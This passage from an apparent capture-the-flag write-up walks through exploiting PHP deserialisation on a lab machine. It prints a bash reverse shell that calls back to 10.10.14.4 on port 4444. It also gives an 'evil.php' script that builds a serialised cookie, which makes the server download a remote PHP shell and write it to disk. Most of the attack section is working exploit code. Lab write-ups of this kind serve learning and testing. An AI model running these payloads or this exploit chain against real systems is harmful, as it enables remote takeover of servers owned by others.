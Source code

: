 The function is called via the `swap_theme.php` file. (use LFI to read)

{% code title="swap_theme.php" %}
```php
// Swap the theme
include_once "includes/utils.php";
if (strcmp(get_theme(), "light") === 0) {
    set_theme("dark");
} else {
    set_theme("light");
}
```
{% endcode %}

Here's a good article to read on exploiting PHP deserialisation:

{% embed url="https://snoopysecurity.github.io/web-application-security/2021/01/08/02_php_object_injection_exploitation-notes.html" %}

Now, within the `Avatar` class, we can see a `__construct` function being used, which is invoked when an object is created. The class also takes in `tmp` file and writes it out on the machine.&#x20;

So the exploit path is simple:

* Create a new object via injection
* Have the machine use `fopen` to read a file (via HTTP) and write it to the machine. This file would be a reverse shell.
* `curl` the file and gain a reverse shell.

Here's a reverse shell that can work:

```php
<?php
  system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'");
?>
```

Then, we need to generate a cookie using specific values from the classes. A simple script with pre-defined variables to serialise and create our cookie suffices.

{% code title="evil.php" %}
```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.4/rev.php";
    public $imgPath = "./rev.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
$serialized = base64_encode(serialize(new AvatarInterface))
echo $serialized
```